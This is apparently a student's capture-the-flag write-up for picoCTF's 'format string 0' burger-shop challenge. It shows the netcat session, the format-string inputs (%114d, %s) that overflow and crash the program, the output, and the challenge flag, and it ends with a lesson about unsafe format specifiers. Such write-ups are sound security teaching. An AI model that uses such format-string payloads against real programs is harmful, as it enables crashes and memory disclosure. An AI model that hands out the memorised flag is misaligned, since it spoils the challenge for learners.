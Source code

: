 # format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`

## My Solve
Firstly looking at the challenge name `format string 0` and the hint I figured out that we need to somehow make use of format specifiers to solve the challenge.
* Looking at the code it's clear that firstly a file named `flag.txt` has to be present in our working directory.
  ![image](https://github.com/user-attachments/assets/4d078bd0-5840-4477-b68d-eb4bd99568b6)

```
devarjya27@devarjya27-VirtualBox:~/Cryptonite TP2$ echo "flag" > flag.txt
```
* After that i initiated the challenge
```
devarjya27@devarjya27-VirtualBox:~/Cryptonite TP2$ nc mimas.picoctf.net 55252
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```
* Here we can clearly see that `Gr%114d_Cheese` is on the menu and has a format specifier `%114d` so thats our input for this instance. Thus satifying the 2 conditions in the code.

  ![image](https://github.com/user-attachments/assets/5da018d1-bbcd-4c52-9b0d-2454eb0260be)

```
Enter your recommendation: Gr%114d_Cheese 
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```
* Now only `Cla%sic_Che%s%steak` has the format specifier `%s` so thats our input for this instance.
![image](https://github.com/user-attachments/assets/93080017-7b07-4669-b715-ebb18f7aaace)

```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
And thus we get our flag

## Incorrect Tangents I Went On
Initially when i looked at the code for the program. The following part stuck out to me.

![image](https://github.com/user-attachments/assets/5901f25f-11dd-455c-a7c4-3f26bdfd84af)

I thought that if we input a random string greater than `2 * BUFSIZE` i.e. 64 then `serve_bob` would be called from within `serve_patrick` but it did not work as our input must be on the `menu` therefore `Gr%114d_Cheese` works which is on the menu and inputs a integer whose size is more than 64 thus calling the `serve_bob` function.

## What I Learned
Its never a good idea to expect input from the user which includes format specifiers as it can lead to unexpected behaviour which can be dangerous. As the challenge was relatively easy I did not require any references.
